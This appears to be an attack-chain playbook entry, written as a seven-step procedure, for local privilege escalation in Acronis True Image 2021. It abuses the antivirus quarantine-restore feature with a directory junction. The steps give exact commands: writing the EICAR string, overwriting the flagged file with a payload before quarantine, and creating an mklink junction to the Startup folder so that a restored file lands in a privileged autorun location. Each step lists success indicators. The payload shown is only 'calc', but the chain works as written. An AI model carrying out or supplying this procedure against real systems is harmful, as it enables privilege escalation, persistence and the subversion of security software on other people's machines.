

# Local Privilege Escalation in Acronis True Image via Directory Junction in Quarantine Restore

Multi-stage attack chain demonstrating a complete local privilege escalation workflow by exploiting a flaw in Acronis True Image's Antivirus Quarantine restore feature. The vulnerability allows attackers to bypass symlink protections but not directory junctions, enabling redirection of restored files to privileged directories like the Windows Startup folder. This leads to arbitrary file writes, code execution at user or SYSTEM level, DLL hijacking, and potential denial of service.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 7 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Process-Monitor]]

### Target Environment

- Target OS/Platform: Windows (NTFS file system required for junctions)
- Required services/ports: Acronis True Image 2021 Build 30480 or similar with Antivirus enabled
- Network access requirements: Local access only; no network needed

### Initial Access Requirements

- Credential requirements: Low-privileged user account
- Network position: Local machine
- Prior access needed: Ability to execute commands and interact with AV UI

## Detailed Attack Procedures

### Step 1: Create Target Folder for Payload
procedure: [[procedures/Prepare-and-Trigger-Quarantine-Payload]]

**Objective**: Set up a directory to hold the initial test payload that will trigger AV detection.

**Instructions**: Create a new folder on the desktop using the [[commands/mkdir-create-eicar-folder]] command:

```cmd
mkdir %userprofile%\Desktop\eicar
```

**Expected Output**: A new directory named 'eicar' is created on the desktop.

**Success Indicators**:
- Directory exists and is empty
- No errors from command execution

### Step 2: Write EICAR Test String to Trigger Detection
procedure: [[procedures/Prepare-and-Trigger-Quarantine-Payload]]

**Objective**: Create a batch file with the EICAR test string to simulate a virus and prompt AV quarantine.

**Instructions**: Use the [[commands/echo-write-eicar-string]] command to write the EICAR string to a batch file:

```cmd
echo|set /p="X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*" > %userprofile%\Desktop\eicar\eicar.bat
```

**Expected Output**: File 'eicar.bat' is created with the EICAR content, triggering Acronis AV detection.

**Success Indicators**:
- AV overlay appears prompting for action (e.g., Block and notify)
- File is detected as a threat

### Step 3: Modify Payload Before Quarantine
procedure: [[procedures/Modify-Payload-Before-Quarantine]]

**Objective**: Overwrite the detected file with attacker-controlled payload while AV processing allows modification.

**Instructions**: Quickly overwrite the file using the [[commands/echo-modify-to-calc]] command before full quarantine:

```cmd
echo calc > %userprofile%\Desktop\eicar\eicar.bat
```

**Expected Output**: File contents replaced with 'calc', which will launch Calculator on execution.

**Success Indicators**:
- File modification succeeds without AV blocking
- AV still proceeds to quarantine the modified file

### Step 4: Quarantine the Threat File
procedure: [[procedures/Quarantine-Threat-File]]

**Objective**: Interact with the AV interface to move the modified file to quarantine.

**Instructions**: In the Acronis AV threat detection overlay, select the 'Quarantine' option. No command needed; this is a UI interaction.

**Expected Output**: The modified 'eicar.bat' is moved to the AV quarantine folder.

**Success Indicators**:
- Confirmation in AV UI that file is quarantined
- Original file no longer accessible in source location

### Step 5: Cleanup Original Folder
procedure: [[procedures/Cleanup-and-Create-Directory-Junction]]

**Objective**: Remove the original folder to prepare for junction creation.

**Instructions**: Delete the folder recursively using the [[commands/rmdir-delete-eicar]] command:

```cmd
rmdir /S /Q %userprofile%\Desktop\eicar
```

**Expected Output**: Directory and contents removed without prompts.

**Success Indicators**:
- Folder is deleted successfully
- No remnants left

### Step 6: Create Directory Junction to Privileged Location
procedure: [[procedures/Cleanup-and-Create-Directory-Junction]]

**Objective**: Establish a junction pointing to a privileged directory like Startup for redirection.

**Instructions**: Create the junction using the [[commands/mklink-create-junction]] command:

```cmd
mklink /J %userprofile%\Desktop\eicar "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

**Expected Output**: Junction created, linking 'eicar' to the Startup folder.

**Success Indicators**:
- Junction exists (verify with `dir /AL`)
- Points to target privileged path

### Step 7: Restore Quarantined File
procedure: [[procedures/Restore-Quarantined-File-to-Privileged-Location]]

**Objective**: Restore the file via AV UI, redirecting it to the junction target for escalation.

**Instructions**: In the Acronis AV interface, select and restore 'eicar.bat' to its original path. Due to the junction, it writes to the Startup folder. No command; UI interaction.

**Expected Output**: File placed in Startup folder, enabling execution on login.

**Success Indicators**:
- File appears in target privileged location
- Use [[tools/Process-Monitor]] to confirm execution with elevated privileges on reboot/login

## Attack Chain Summary

### Key Achievements

1. Bypassed AV quarantine protections using directory junctions
2. Achieved arbitrary file write in privileged directories
3. Enabled persistence and code execution via Startup folder

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Registry Run Keys - Startup Folder]] Registry Run Keys / Startup Folder
- [[Disable or Modify Tools]] Disable or Modify Tools
- [[Windows Command Shell]] Windows Command Shell

### MITRE ATT&CK Tactics

- [[Privilege Escalation]] Privilege Escalation
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
